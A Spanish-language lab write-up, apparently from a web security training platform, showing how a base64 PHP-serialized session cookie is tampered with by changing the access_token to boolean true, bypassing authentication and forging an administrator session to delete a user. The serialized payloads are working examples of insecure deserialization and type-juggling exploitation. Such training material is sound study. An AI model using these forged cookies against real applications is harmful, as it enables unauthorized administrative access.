








## LAB



Al ingresar con las credenciales proporcionadas y luego interceptar las solicitudes observaremos que el cookie esta en base64. Por lo que podemos controlar los valores.



```c
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"ddgpp2swx86uzqh3rmn87ju3mnsktijg";}
```

Al cambiar el valor de `s:32:"ddgpp2swx86uzqh3rmn87ju3mnsktijg"` a `b:1` y enviar la solicitud observamos que el usuario Wiener puede ver el panel de administración.

```c
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";b:1;}
```



De la misma manera sucede con el usuario Carlos.

```c
O:4:"User":2:{s:8:"username";s:6:"carlos";s:12:"access_token";b:1;}
```



Por lo que podemos mandar solicitudes como el usuario administrador, teniendo en cuenta los valores que en este caso seria:

```c
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";b:1;}
```



Ahora que podemos ejecutar funciones administrativas y para completar el laboratorio debemos eliminar al usuario Carlos.





